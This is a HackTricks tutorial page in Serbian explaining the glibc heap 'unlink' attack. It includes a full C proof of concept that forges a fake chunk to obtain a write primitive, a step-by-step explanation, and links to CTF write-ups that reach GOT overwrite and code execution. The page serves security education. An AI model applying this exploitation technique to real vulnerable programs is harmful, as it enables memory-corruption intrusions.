 # Unlink Attack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Osnovne informacije

Kada je ovaj napad otkriven, uglavnom je omogućavao WWW (Write What Where), međutim, neki **provere su dodate** što je novu verziju napada učinilo zanimljivijom, složenijom i **beskorisnom**.

### Primer koda:

<details>

<summary>Kod</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Napad ne funkcioniše ako se koriste tcaches (posle 2.26)

### Cilj

Ovaj napad omogućava da **promenite pokazivač na deo da pokazuje 3 adrese pre sebe**. Ako se ova nova lokacija (okolina gde je pokazivač bio smešten) sadrži zanimljive stvari, kao što su druge kontrolisane alokacije / stek..., moguće je da ih pročitate/prepišete kako biste izazvali veću štetu.

* Ako je ovaj pokazivač bio smešten u steku, pošto sada pokazuje 3 adrese pre sebe i korisnik potencijalno može da ga pročita i izmeni, biće moguće da se otkriju osetljive informacije iz steka ili čak da se izmeni adresa povratka (možda) bez dodirivanja kanarija.
* U skladu sa CTF primerima, ovaj pokazivač se nalazi u nizu pokazivača na druge alokacije, stoga, čineći ga da pokazuje 3 adrese pre i mogućnošću da ga pročita i piše, moguće je da se drugi pokazivači usmere na druge adrese.\
Pošto korisnik potencijalno može da čita/piše i druge alokacije, može da otkrije informacije ili prepiše nove adrese na proizvoljnim lokacijama (kao u GOT-u).

### Zahtevi

* Neka kontrola u memoriji (npr. stek) da se kreira nekoliko delova dodeljujući vrednosti nekim od atributa.
* Stek leak kako bi se postavili pokazivači lažnog dela.

### Napad

* Postoji nekoliko delova (chunk1 i chunk2)
* Napadač kontroliše sadržaj chunk1 i zaglavlja chunk2.
* U chunk1 napadač kreira strukturu lažnog dela:
* Da bi zaobišao zaštite, osigurava da je polje `size` ispravno kako bi izbegao grešku: `corrupted size vs. prev_size while consolidating`
* i polja `fd` i `bk` lažnog dela pokazuju gde je pokazivač chunk1 smešten sa pomerajima od -3 i -2 respektivno, tako da `fake_chunk->fd->bk` i `fake_chunk->bk->fd` pokazuju na poziciju u memoriji (stek) gde se nalazi prava adresa chunk1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Zaglavlja chunk2 su modifikovana da označe da prethodni deo nije korišćen i da je veličina veličina sadržanog lažnog dela.
* Kada se drugi deo oslobodi, tada se ovaj lažni deo unlink-uje dešavajući:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Prethodno je napravljeno da `fake_chunk->fd->bk` i `fake_chunk->bk->fd` pokazuju na isto mesto (lokaciju u steku gde je `chunk1` bio smešten, tako da je to bila validna povezana lista). Pošto **oba pokazuju na istu lokaciju**, samo će poslednji (`fake_chunk->bk->fd = fake_chunk->fd`) imati **efekat**.
* Ovo će **prepisati pokazivač na chunk1 u steku na adresu (ili bajtove) smeštene 3 adrese pre u steku**.
* Stoga, ako bi napadač mogao ponovo da kontroliše sadržaj chunk1, moći će da **piše unutar steka** potencijalno prepisujući adresu povratka preskočivši kanarija i menjajući vrednosti i pokazivače lokalnih promenljivih. Čak i ponovo menjajući adresu chunk1 smeštenu u steku na drugu lokaciju gde, ako bi napadač ponovo mogao da kontroliše sadržaj chunk1, mogao bi da piše bilo gde.
* Imajte na umu da je ovo bilo moguće jer su **adrese smeštene u steku**. Rizik i eksploatacija mogu zavisiti od **gde su adrese lažnog dela smeštene**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Reference

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Iako bi bilo čudno pronaći unlink napad čak i u CTF-u, ovde imate neke izveštaje gde je ovaj napad korišćen:
* CTF primer: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* U ovom primeru, umesto steka postoji niz malloc'ovanih adresa. Unlink napad se izvodi kako bi se mogla alocirati chunk ovde, stoga se može kontrolisati pokazivače niza malloc'ovanih adresa. Zatim, postoji još jedna funkcionalnost koja omogućava modifikaciju sadržaja chunk-ova u ovim adresama, što omogućava usmeravanje adresa na GOT, modifikaciju adresa funkcija za dobijanje leak-ova i RCE.
* Još jedan CTF primer: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Baš kao u prethodnom primeru, postoji niz adresa alokacija. Moguće je izvršiti unlink napad kako bi se adresa prve alokacije usmerila nekoliko pozicija pre početka niza i prepisala ovu alokaciju na novoj poziciji. Stoga, moguće je prepisati pokazivače drugih alokacija da pokazuju na GOT funkcije atoi, ispisati je da bi se dobio libc leak, a zatim prepisati atoi GOT sa adresom do jednog gadget-a.
* CTF primer sa prilagođenim malloc i free funkcijama koje zloupotrebljavaju ranjivost vrlo sličnu unlink napadu: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Postoji overflow koji omogućava kontrolu FD i BK pokazivača prilagođenog malloc-a koji će biti (prilagođeni) oslobođeni. Štaviše, heap ima exec bit, tako da je moguće otkriti adresu heap-a i usmeriti funkciju iz GOT-a na heap chunk sa shellcode-om za izvršavanje.

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove podnošenjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
